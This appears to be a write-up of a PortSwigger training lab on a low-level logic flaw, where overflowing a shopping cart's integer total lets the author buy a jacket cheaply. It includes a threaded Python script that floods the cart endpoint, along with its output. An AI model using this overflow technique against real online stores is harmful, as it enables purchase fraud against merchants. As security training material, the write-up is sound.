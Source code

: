 # Low-level logic flaw

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-low-level), you'll learn: Low-level logic flaw! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price. To solve the lab, buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220024954.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220025012.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220025020.png)

**Let's try to buy the leather jacket!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220025136.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220025203.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220025238.png)

When we clicked the `Add to cart` button, **it'll send a POST request to `/cart`, with parameter `productId=1`, `redir=PRODUCT` and `quantity=1`.**

**Let's forward that request and check out the `/cart` page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220025807.png)

We can see that the leather jacket has been added to our cart.

**Now, what if we send the `quantity` value to a negative value? Like `-2`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220030536.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220030545.png)

Hmm... It doesn't have a negative quantity of products.

**In the `Add to cart` button's HTML form, we can see that the `quantity` has a maximum number:**
```html
<form id=addToCartForm action=/cart method=POST>
	<input required type=hidden name=productId value=1>
	<input required type=hidden name=redir value=PRODUCT>
	<input required type=number min=0 max=99 name=quantity value=1>
	<button type=submit class=button>Add to cart</button>
</form>
```

As you can, the minimum number is `0`, and the maximum is `99`.

**What if I go over 99?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220031258.png)

Hmm... `Invalid parameter`.

**Now, what if the total price is greater than a maximum value of an integer?** (Integer overflow)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220031617.png)

**If the total price is greater than `2147483647`, will the price went to `0`?**

**To do so, I'll keep buying 99 leather jackets in a python script:**
```py
#!/usr/bin/env python3

import requests
import re
from threading import Thread
from time import sleep

def sendAndGetRequest(url, cookie, data):
    # Send a POST request to /cart, which buying 99 quantity of the leather jacket
    requests.post(url, cookies=cookie, data=data)

    # Send a GET request to /cart, which fetches all the text in that page
    requestGetText = requests.get(url, cookies=cookie).text

    # Try to find the total price
    try:
        # Find pattern $1234.00 or -$1234.00
        matchedTotalPrice = re.findall(r'(\-?\$[0-9]+\.[0-9]{2})', requestGetText)
        print(f'[*] Total price = {matchedTotalPrice[2]}')
    # If couldn't find the total price, display the total price to $1337.00
    except IndexError:
        print('[*] Total price = $1337.00')

def main():
    url = 'https://0aff007003e8750ec056ea21007000ed.web-security-academy.net/cart'
    cookie = {'session': 'EFLAO76m0lWVnRY8CykNMObFTksFmX9B'}
    data = {
        'productId': '1',
        'redir': 'PRODUCT',
        'quantity': 99
    }

    # Create 350 jobs
    for job in range(350):
        # Create each thread to run function sendAndGetRequest(url, cookie, data)
        thread = Thread(target=sendAndGetRequest, args=(url, cookie, data))
        # Start the thread
        thread.start()
        # Sleep 0.2s to prevent max retries exceeded with url error
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5]
└─# python3 exploit.py
[*] Total price = $1323630.00
[...]
[*] Total price = $21310443.00
[*] Total price = -$21374503.96
[...]
[*] Total price = -$64060.96
[*] Total price = $200665.04
[...]
[*] Total price = $1127206.04
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220040907.png)

**As you can see, when the total price reached greater than `2147483647`, the value will become negative, then it'll go back to positive again!**

**Now, let's decrease the quantity of the leather jacket, so that the total price will become affordable for us:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220041158.png)

**Hmm... Still greater than $100. Let's `-1` the quantity again, and buy other products:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220041433.png)

**Let's go with `Sprout More Brain Power`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220041500.png)

**Let's buy `528` that product: (`2.32 * 528 = 1224.96`)**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220041819.png)

**Nice! Now we can buy those products! Let's click the `Place order` button:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220041855.png)

We did it!

# What we've learned:

1. Low-level logic flaw